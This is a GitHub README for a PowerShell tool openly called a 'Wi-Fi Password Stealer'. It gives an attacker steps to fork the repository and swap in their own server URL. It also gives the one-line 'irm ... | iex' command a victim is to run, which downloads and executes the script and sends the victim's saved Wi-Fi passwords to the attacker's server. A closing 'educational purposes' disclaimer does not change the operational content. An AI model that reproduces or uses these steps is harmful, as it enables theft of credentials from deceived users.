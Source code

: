 ### Wi-Fi Password Stealer

**How to use?**

Attacker:
1. Fork the repository [Wi-Fi Password Stealer](https://github.com/Spandanpokh/Wi-Fi-Password-Stealer).
2. In `main.ps1` (Line 10), replace `https://69dpxu7o7xx63sjquol1ttpqphv7jw.oastify.com` with your server's URL.
3. Get its RAW file, for example: `https://raw.githubusercontent.com/Spandanpokh/Wi-Fi-Password-Stealer/main/main.ps1`

Victim:
1. Open the PowerShell and execute the following command:
   `irm https://raw.githubusercontent.com/Spandanpokh/Wi-Fi-Password-Stealer/main/main.ps1 | iex`
   
   ![image](https://github.com/Spandanpokh/Wi-Fi-Password-Stealer/assets/98866320/f755104c-249e-4c00-bd8e-b46cb907d64c)
   
2. Attacker will receive victim's Wi-Fi passwords saved on victim's computer on attacker's server.
   ![burp](https://github.com/Spandanpokh/Wi-Fi-Password-Stealer/assets/98866320/11a00636-6f8a-4ef9-b90e-1fc71657949e)


> This is intended exclusively for educational purposes and should be used solely for learning and understanding. We want to emphasize that we are not responsible for any misuse or unauthorized access to Wi-Fi networks that may result from the use of this tool.
